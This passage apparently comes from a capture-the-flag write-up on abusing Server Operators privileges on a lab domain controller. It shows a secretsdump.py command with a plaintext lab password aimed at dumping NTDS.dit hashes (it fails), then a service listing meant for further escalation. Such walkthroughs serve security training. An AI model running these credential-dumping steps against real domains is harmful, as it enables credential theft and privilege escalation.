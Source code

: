What we found here was a connection between the privileges **`SeBackupPrivilege`** -**`SeRestorePrivilege`** and the `Server Operators` group! We must now find a way to abuse it.

Lets now check the ones that are relevant to our case below:

### Dumping NTDS.dit (**Back up and restore files)**

```bash
secretsdump.py 'return.local/svc-printer:1edFg43012!!'@10.129.165.43
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```
it was not successful…

### **Services**

First lets list the services”
```bash
services
```

```bash
Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```
